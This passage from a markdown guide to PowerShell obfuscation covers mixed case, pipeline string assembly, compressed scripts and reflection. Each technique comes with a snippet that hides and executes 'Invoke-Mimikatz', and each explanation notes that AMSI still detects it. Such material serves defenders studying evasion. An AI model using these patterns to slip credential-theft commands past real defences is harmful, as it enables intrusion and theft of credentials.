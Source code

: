 ### 14. Randomized Case (Mixed Case)
- **Description**: Uses mixed upper and lower case for commands or strings to avoid exact string matches.
- **Example**:
  ```powershell
  $cmd = "iNvOkE-mImIkAtZ"
  Invoke-Expression $cmd
  ```
  - **Explanation**: Randomizes case for `Invoke-Mimikatz`. PowerShell is case-insensitive, so this executes, but AMSI normalizes case for detection.

### 15. Pipeline Obfuscation
- **Description**: Uses complex pipelines with `ForEach-Object`, `Where-Object`, or other cmdlets to obscure command construction.
- **Example**:
  ```powershell
  $parts = @("Invoke", "Mimikatz")
  $cmd = $parts | ForEach-Object { $_ } | Join-String -Separator "-"
  Invoke-Expression $cmd
  ```
  - **Explanation**: Builds `Invoke-Mimikatz` through a pipeline. This adds complexity but doesn’t prevent AMSI from scanning the final string.

### 16. Compressed Scripts
- **Description**: Compresses a script using `System.IO.Compression` (e.g., Deflate or GZip), decompressing and executing it at runtime.
- **Example**:
  ```powershell
  $script = 'Write-Output "Invoke-Mimikatz"'
  $bytes = [Text.Encoding]::Unicode.GetBytes($script)
  $ms = New-Object IO.MemoryStream
  $cs = New-Object IO.Compression.DeflateStream($ms, [IO.Compression.CompressionMode]::Compress)
  $cs.Write($bytes, 0, $bytes.Length)
  $cs.Close()
  $compressed = $ms.ToArray()
  $ms.Close()
  # Decompress and execute
  $ms = New-Object IO.MemoryStream(,$compressed)
  $ds = New-Object IO.Compression.DeflateStream($ms, [IO.Compression.CompressionMode]::Decompress)
  $reader = New-Object IO.StreamReader($ds)
  $decompressed = $reader.ReadToEnd()
  Invoke-Expression $decompressed
  ```
  - **Explanation**: Compresses the script, decompresses, and executes. This hides the script statically, but AMSI scans the decompressed script block.

### 17. Reflection-Based Obfuscation
- **Description**: Uses .NET reflection to access and execute commands or types dynamically, avoiding direct cmdlet names.
- **Example**:
  ```powershell
  $type = [Type]::GetType("System.Management.Automation.PowerShell")
  $ps = $type::Create()
  $cmd = "Invoke-Mimikatz"
  $ps.AddScript($cmd).Invoke()
  ```
  - **Explanation**: Uses reflection to invoke PowerShell commands. This is complex but still subject to AMSI scanning of the script block.
